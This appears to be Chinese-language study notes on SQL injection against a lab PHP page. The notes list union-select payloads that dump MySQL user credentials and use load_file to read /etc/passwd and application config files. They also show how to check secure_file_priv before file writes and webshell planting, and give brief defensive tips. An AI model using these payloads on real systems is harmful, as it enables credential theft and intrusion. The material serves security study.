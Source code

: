 **6、针对非数据型查询漏洞**

- 字符型

```
/security/read.php?id=88'  union select 1,2, (select concat_ws(':',user,password) from mysql.user limit 0,1) ,4,5,6 %23'
/security/read.php?id=88'  union select 1,2, (select concat_ws(':',user,password) from mysql.user limit 0,1) ,4,5,6 --+'
```

- 搜索型

```
select  * from article where content like '%路由%'；
select  * from article where content like '%路由%'--'%';
select  * from article where content like '%路由%'#'%';
```

> 上述注入均是GET请求，针对POST请求是完全一样的用法，只是将Payload移到Post请求的正文当中即可。

### 四、Union查询注入不适用的地方

1. 注入语句无法截断，且不清楚完整的SQL查询语句；
2. 页面不能返回查询信息的时候；
3. Web页面中有两个SQL查询语句，查询语句的列数不同。

### 五、防护方法

1. 添加`addslashes`
2. 将ID类数字型参数转换为整数
3. 

## 文件读写及木马植入

### 一、读写权限确认



![image-20220720164518951](https://yang-typora.oss-cn-beijing.aliyuncs.com/202207201645049.png)

```sql
show global variables like '%secure%';
查看MySQl全局变量的配置，当输入以上命令后，结果
secure_file_priv = 空的时候，任意读写
secure_file_priv = 某个路径的时候，只能在规定的那个路径下读写
secure_file_priv = NULL 表示不能读写
```

### 二、读取文件

​	利用SQL语句读取系统文件，先读取常规文件（明确路径），如果能成功读取，则继续读取其他文件。如果明确知道路径，则直接尝试爆破路径下的文件。

```python
http://192.168.72.148/security/read.php?id=88 union select 1,2,3,load_file("C:/windows/service.inf"),5,6
http://192.168.72.148/security/read.php?id=88 union select 1,2,3,load_file("/etc/passwd"),5,6
    
/security/read.php?id=88 union select 1,2,3,load_file("D:/XamppNew/htdocs/security/common.php"),5,6
/security/read.php?id=88 union select 1,2,3,load_file("/opt/lampp/htdocs/security/common.php"),5,6
```
